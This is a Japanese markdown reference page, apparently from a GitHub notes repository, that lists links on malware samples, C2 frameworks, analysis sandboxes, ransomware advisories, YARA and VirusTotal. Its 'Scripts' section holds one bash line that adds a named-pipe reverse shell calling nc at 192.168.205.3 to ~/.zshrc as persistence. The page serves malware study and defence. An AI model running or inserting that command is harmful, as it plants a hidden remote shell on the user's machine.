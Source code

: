 # マルウェア

### C2

https://howto.thec2matrix.com/

### 検体の入手

[マルウェア検体を入手する方法](https://www.japan-secure.com/entry/blog-entry-198.html)

[eicar test file](https://www.eicar.org/?page_id=3950)

[SourceFinder: Finding Malware Source-Code from Publicly Available Repositories in GitHub](https://www.usenix.org/system/files/raid20-rokon.pdf)

https://virusshare.com/

https://urlhaus.abuse.ch/

https://github.com/topics/malware-samples

https://github.com/ytisf/theZoo

https://github.com/rshipp/awesome-malware-analysis

https://github.com/vxunderground/MalwareSourceCode

https://github.com/offensive-security/exploitdb

### 検体

- rootkit
  - https://github.com/enzolovesbacon/inficere
- backDoor
  - https://github.com/mosca1337/OSX-Peristant-BackDoor

### マルウェア解析

- [Free Automated Malware Analysis Sandboxes and Services](https://zeltser.com/automated-malware-analysis/)
  - https://any.run/
- https://www.sans.org/blog/how-you-can-start-learning-malware-analysis/
- [マルウェア解析に必要な素養](https://hackmd.io/@K-atc/S1kLEr5x)
- ブログ
  - https://www.mbsd.jp/research/malware/#contents
  - [東京五輪に関係する日本語のファイル名を持つマルウェア(ワイパー)の解析](https://www.mbsd.jp/research/20210721/blog/)

### Ransomeware

[Ransomware Attacks and Types – How Encryption Trojans Differ](https://www.kaspersky.com/resource-center/threats/ransomware-attacks-and-types)

[ランサムウェア攻撃で悪用された正規ツールを解説](https://blog.trendmicro.co.jp/archives/28681)

https://www.cisa.gov/stopransomware

[侵入型ランサムウェア攻撃を受けたら読むFAQ](https://www.jpcert.or.jp/magazine/security/ransom-faq.html)

### 脅威データベース

https://www.trendmicro.com/vinfo/jp/threat-encyclopedia/

https://urlhaus.abuse.ch/

### マルウェア検知ツール

https://github.com/VirusTotal/yara

https://blog.malwarebytes.com/security-world/technology/2017/09/explained-yara-rules/

https://github.com/hasherezade/hollows_hunter

### VirusTotal

https://www.virustotal.com/gui/

https://keepmealive.jp/about-virustotal/

### マルウェア、ウイルス一覧

- Emotet
  - https://www.ipa.go.jp/security/announce/20191202.html
  - https://github.com/JPCERTCC/EmoCheck
- Phoenix Cryptolocker
  - https://cloudsek.com/threatintelligence/phoenix-cryptolocker-ransomware-threat-intel-advisory/

### Scripts

```bash
# zshrc で永続化
echo '(rm ./pipe; mkfifo ./pipe; cat ./pipe | /bin/sh -i 2>&1|nc 192.168.205.3 1337 > ./pipe &)' >> ~/.zshrc

```

### YARA

https://github.com/JPCERTCC/jpcert-yara

### 参考

- [Goで書かれたマルウェアが増加傾向--APTと犯罪グループの両方が利用](https://japan.zdnet.com/article/35167172/)
- [ストップ！ ランサムウェア　ランサムウェア特設ページ - NISC](https://security-portal.nisc.go.jp/stopransomware/)
- [Ransomware as a Service Innovation Curve](https://www.coveware.com/blog/2022/1/26/ransomware-as-a-service-innovation-curve)

### Tools

https://github.com/sweetsoftware/Ares

